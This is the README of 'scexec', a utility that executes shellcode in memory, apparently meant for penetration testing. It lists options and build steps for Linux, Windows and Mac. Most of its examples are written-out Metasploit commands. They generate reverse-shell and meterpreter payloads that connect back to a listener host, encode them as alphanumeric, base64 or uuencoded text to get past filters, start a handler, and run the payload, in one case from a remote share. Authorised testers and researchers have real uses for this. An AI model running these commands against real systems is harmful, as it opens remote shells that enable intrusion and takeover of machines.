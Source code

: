 scexec
======

Portable utility to execute in memory a sequence of opcodes

Features
========

- Linux/Windows/Mac support
- Visual C/C++, gcc, mingw32/mingw64 support
- Raw/Alphanumeric/Base64/UUdecode support
- Commandline argument/File support

Examples
========

## Linux target

    $ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
    $ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
    $ ./scexec <msfencode's alphanumeric-encoded payload>

## Windows target

    msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | msfencode -a x86 -e x86/alpha_mixed -t raw BufferRegister=EAX
    msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 E
    C:\> scexec.exe <msfencode's alphanumeric-encoded payload>

## Windows target with base64

    msfpayload windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | perl utils/base64encode.pl
    msfcli multi/handler PAYLOAD=windows/meterpreter/reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 E
    C:\> scexec.exe b <msfpayload-base64encoded-payload>

## Linux target with uudecode/uuencode

    $ msfpayload linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.1.1 R | perl utils/uuencode.pl
    $ msfcli multi/handler PAYLOAD=linux/x86/shell_reverse_tcp EXITFUNC=thread LPORT=4444 LHOST=192.168.136.1 E
    $ ./scexec u <msfpayload-uuencoded-payload>

## Few more quick examples

Read and execute payload from filename msfpayloadfn.raw:

    C:\> scexec.exe f msfpayloadfn.raw

Read and execute base64 encoded payload from filename msfpayloadfn.base64:

    C:\> scexec.exe fb msfpayloadfn.base64

Read and execute uuencoded payload from share:

    C:\> \\192.168.1.1\\scexec.exe fu \\192.168.1.1\\msfpayload.uuencoded

Options explained
=================

Options can be combined:

no options - read alphanumeric shellcode from commandline

a - execute shellcode through call eax/rax

f - read shellcode from file

b - treat input shellcode as base64 encoded

u - treat input shellcode as uuencoded shellcode


Building
========

### Linux/Mac/POSIX builds

Just type:

    make

### Mingw builds:

32 bit:

    make CC=i686-w64-mingw32-gcc STRIP=i686-w64-mingw32-strip OUT=scexec32.exe

64 bit:

    make CC=x86_64-w64-mingw32-gcc STRIP=x86_64-w64-mingw32-strip OUT=scexec64.exe

### Visual Studio:

32 bit:

    nmake /f Makefile.vc

64 bit:

    nmake /f Makefile.v64

### Builds

    make CC=i386-mingw32-gcc STRIP=i386-mingw32-strip OUT=../bin/scexec-win32.exe
    make CC=gcc STRIP=strip OUT=../bin/scexec-macosx-x64-dyn.bin
    make CC=x86_64-w64-mingw32-gcc STRIP=x86_64-w64-mingw32-strip OUT=../bin/scexec-win64.exe
    

Credits
=======

Vlatko Kosturjak

Based on Bernardo Damele A. G. shellcodeexecute

